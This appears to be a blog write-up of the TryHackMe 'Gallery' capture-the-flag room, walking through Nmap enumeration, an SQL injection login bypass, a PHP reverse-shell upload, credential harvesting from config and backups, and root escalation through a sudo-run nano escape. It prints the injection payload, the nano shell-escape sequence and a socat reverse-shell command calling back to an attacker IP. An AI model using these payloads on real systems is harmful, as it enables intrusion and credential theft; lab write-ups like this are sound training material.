










+++
title = 'Gallery'
date = 2022-02-11T14:14:22+02:00
draft = false
tags = ['thm', 'writeup']
summary = '[Gallery](https://tryhackme.com/room/gallery666) is an easy CTF-like box that features vulnerabilities like SQLi, RCE & misconfiguration. This is a very beginner-friendly room that was created by [Mikaa](https://tryhackme.com/p/Mikaa).'
description = '"Gallery" is an easy CTF machine. Released on 11th of February, 2022 (THM).'
thumbnail = 'img/gl-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection. I also scanned all of the ports but the only ones that were open were a part of the common ports:

```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Unknown favicon MD5: 7424D18C988732ECDA7DF08FBC727000
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
            
        

In the output we see two HTTP services open on ports `80` and `8080`. On port `80` we find a default apache page however on port `8080` we find a login system:



Exploitation
------------

### SQL Injection

The first thing that I tried was a simple SQL injection payload in the username field. This will log us in as the administrator. The payload that I used was:

```SQL
' OR 1=1 -- -
```



### Reverse Shell

For the challenge, we also have to find the administrator's password hash. SQLmap couldn't find the field to be vulnerable even tho it is. So I decided to keep on going and access the database later. Now after we have logged in via SQLi authentication bypass we can start to look at the features this CMS gives us. Under the albums section, we see multiple albums. We can try to upload a PHP reverse shell:



There were no filters on the upload. Now we can set up our Netcat listener and open the uploaded PHP file which gives us a reverse shell as www-data:



### Data Exfiltration

Now that we have access to the system the first thing that I do is find the MySQL database configuration at:

`/var/www/html/gallery/classes/DBConnection.php`

The credentials are passed in as variables which are initialized on

`/var/www/html/gallery/initialize.php`

```php
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```



Privilege Escalation
====================

System User Access
------------------

### Exploitation

In our enumeration we find a system user `mike`. At this point, I have done a lot of enumeration on common privilege escalation techniques but I didn't find anything. Lastly, I was looking for files and I found a directory called `mike_home_backup` at `/var/backups/` with this command:

```bash
find / 2>/dev/null | grep mike
```

This is a backup of Mike's home directory. Here we can explore the documents directory where we find a file called `accounts.txt` where mike has backed up his passwords:



I tried to use these passwords to see if we can log in as mike but that didn't work. After that, I checked out the `.bash_history` file and found mikes password:



Root User Access
----------------

### Exploitation

Before we continue let's grab the user flag located in `/home/mike/user.txt`. When that is done let's check out common privilege escalation vectors. The first thing that I ran was "sudo -l" to see if we can run a command as the superuser:



We can run a bash script as root. This script allows you to choose between options of what you want to do. The one that sticks out is "read" since it runs "nano" editor as root:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

We can look for a payload that could give us a root shell. Here is the one that I grabbed from GtfoBins note that for it to work you must have a sable enough shell:

```bash
sudo /bin/bash /opt/rootkit.sh
# Choose the "Read" option.
# Follow the shortcuts:
CTRL + R
CTRL + X
# Execute this command:
reset; sh 1>&0 2>&0
```
            
        



If this does not work then that means that you might not have a sable shell. On this box socat is installed so we can use it with the following commands to generate a new more stable shell:

```bash
# Shell listener
socat file:`tty`,raw,echo=0 tcp-listen:4444
# Shell payload
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
```

If the shell is stable and we are able to execute the command then we can claim our root flag at `/root/root.txt` and finish the box:


